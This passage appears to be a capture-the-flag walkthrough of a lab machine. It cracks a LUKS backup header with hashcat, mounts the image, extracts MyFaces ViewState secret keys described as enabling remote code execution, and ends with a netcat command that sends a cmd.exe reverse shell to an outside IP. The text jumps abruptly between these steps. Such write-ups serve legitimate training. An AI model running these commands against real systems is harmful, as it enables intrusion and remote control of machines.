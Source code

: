 Now I can crack it with hashcat:

```
C:\bin\hashcat>hashcat64 -m 14600 -a 0 -w 3 backup_header.dd passwords\rockyou.txt
hashcat (v5.1.0) starting...

[...]

backup_header.dd:batmanforever
```

The password is `batmanforever`

To mount the image I first open the image file and assign it to the device mapper, then mount it under `/mnt`:

```
# cryptsetup luksOpen backup.img backup
Enter passphrase for backup.img: [batmanforever]
# mount /dev/mapper/backup /mnt

root@ragingunicorn:/mnt/Mask# ls -lR
.:
total 880
drwxr-xr-x 2 root root   1024 Dec 25 00:22 docs
-rw-rw-r-- 1 root root  96978 Dec 25 00:18 joker.png
-rw-rw-r-- 1 root root 105374 Dec 25 00:20 me.jpg
-rw-rw-r-- 1 root root 687160 Dec 25 00:20 mycar.jpg
-rw-rw-r-- 1 root root   7586 Dec 25 00:19 robin.jpeg
drwxr-xr-x 2 root root   1024 Dec 25 00:24 tomcat-stuff

./docs:
total 196
-rw-r--r-- 1 root root 199998 Jun 15  2017 Batman-Begins.pdf

./tomcat-stuff:
total 191
-rw-r--r-- 1 root root   1368 Dec 25 00:23 context.xml
-rw-r--r-- 1 root root    832 Dec 25 00:24 faces-config.xml
-rw-r--r-- 1 root root   1172 Dec 25 00:23 jaspic-providers.xml
-rw-r--r-- 1 root root     39 Dec 25 00:24 MANIFEST.MF
-rw-r--r-- 1 root root   7678 Dec 25 00:23 server.xml
-rw-r--r-- 1 root root   2208 Dec 25 00:23 tomcat-users.xml
-rw-r--r-- 1 root root 174021 Dec 25 00:23 web.xml
-rw-r--r-- 1 root root   3498 Dec 25 00:24 web.xml.bak
```

So I have a bunch of files in there, I'll concentrate on the xml files.

In the `web.xml.bak` file, I find the encryption key for the ViewState. I can use this to construct my own serialized objects and pass them to the server to gain RCE.

```
<param-name>org.apache.myfaces.SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
    <context-param>
        <param-name>org.apache.myfaces.MAC_ALGORITHM</param-name>
        <param-value>HmacSHA1</param-value>
     </context-param>
<context-param>
<param-name>org.apache.myfaces.MAC_SECRET</param-name>
<param-value>SnNGOTg3Ni0=</param-value>
</context-param>
```


[arkham]: PS C:\Users\Batman\Documents>
[arkham]: PS C:\Users\Batman\Documents> cd ..
[arkham]: PS C:\Users\Batman\Documents> whoami
[arkham]: PS C:\Users\Batman\Documents> cd \users\administrator\desktop
[arkham]: PS C:\Users\Batman\Documents> c:\programdata\nc.exe -e cmd.exe 10.10.14.23 6666